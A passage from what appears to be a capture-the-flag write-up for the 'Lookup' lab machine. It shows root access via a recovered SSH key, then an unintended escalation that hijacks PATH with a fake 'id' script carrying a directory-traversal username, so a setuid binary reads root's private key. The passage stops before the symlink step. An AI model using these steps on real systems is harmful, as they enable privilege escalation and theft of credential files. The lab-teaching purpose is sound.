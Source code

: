 We can save this private key in a file, set the correct permissions for it, and then use it with **SSH** to gain a shell as the `root` user. From there, we can read the root flag at `/root/root.txt` and complete the room.

```console
$ chmod 600 id_rsa

$ ssh -i id_rsa root@lookup.thm
...
root@lookup:~# wc -c root.txt
33 root.txt
```

## Unintended www-data to root

Looking back at how the `/usr/sbin/pwm` binary works, we know that it extracts everything within parentheses for the `uid` field in the output of the `id` command as the username.

After that, it uses the extracted username without any filtering to build the filename to read and prints the contents of it.

So, what we can do is, instead of providing a username like `think` (which builds the filename as `/home/think/.passwords`), we can provide a directory traversal payload as the username to make it read the `.passwords` file from any part of the filesystem. Additionally, we can make this `.passwords` file a symlink to any file we want to read, achieving arbitrary file read.

To exploit this, let's create our `id` executable with a directory traversal payload as the username and modify our `PATH` variable to hijack the actual `id` command, as shown below:

```console
www-data@lookup:/var/www/html$ echo -e '#!/bin/bash\necho "uid=33(../var/www/html) gid=33(www-data) groups=33(www-data)"' > /var/www/html/id
www-data@lookup:/var/www/html$ chmod 777 /var/www/html/id
www-data@lookup:/var/www/html$ export PATH=/var/www/html:$PATH
www-data@lookup:/var/www/html$ which id
/var/www/html/id
www-data@lookup:/var/www/html$ id
uid=33(../var/www/html) gid=33(www-data) groups=33(www-data)
```
{: .wrap }

> We are using `/var/www/html` instead of `/tmp` or `/dev/shm`, because `fs.protected_symlinks` is enabled on the host. This means that any `symlink` created in a world-writable directory like `/tmp` or `/dev/shm` will not be followed. While we could still create the `id` executable in those directories and only put the `symlink` in `/var/www/html`, preparing everything in a single directory is simpler.  
{: .prompt-tip }

As we can see, now our `id` command outputs:  
`uid=33(../var/www/html) gid=33(www-data) groups=33(www-data)`,  
which means that the `/usr/sbin/pwm` binary will extract `../var/www/html` as the username and build the file name as `/home/../var/www/html/.passwords`.

Next, we can create `/home/../var/www/html/.passwords` (`/var/www/html/.passwords`) as a symlink pointing to any file we want to read as `root`. For example, `/root/.ssh/id_rsa` in our case, as follows:
